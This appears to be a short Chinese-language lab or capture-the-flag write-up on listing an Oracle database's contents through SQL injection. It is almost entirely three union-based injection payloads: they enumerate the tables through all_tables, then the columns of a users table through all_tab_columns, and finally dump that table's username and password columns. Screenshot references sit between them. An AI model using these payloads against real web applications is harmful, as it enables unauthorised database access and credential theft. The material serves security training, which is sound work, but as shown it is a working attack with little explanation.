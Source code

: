 **列出Oracle数据库的内容**

```sql
'union select table_name,null from all_tables--+
```



```sql
' union select column_name,null from all_tab_columns where table_name='USERS_HQYEIS'--+
```

![image-20250430234704748](./img/image-20250430234704748.png)

```
' union select USERNAME_MBITOE,PASSWORD_LVJMUO from USERS_HQYEIS--+
```

![image-20250430234818057](./img/image-20250430234818057.png)
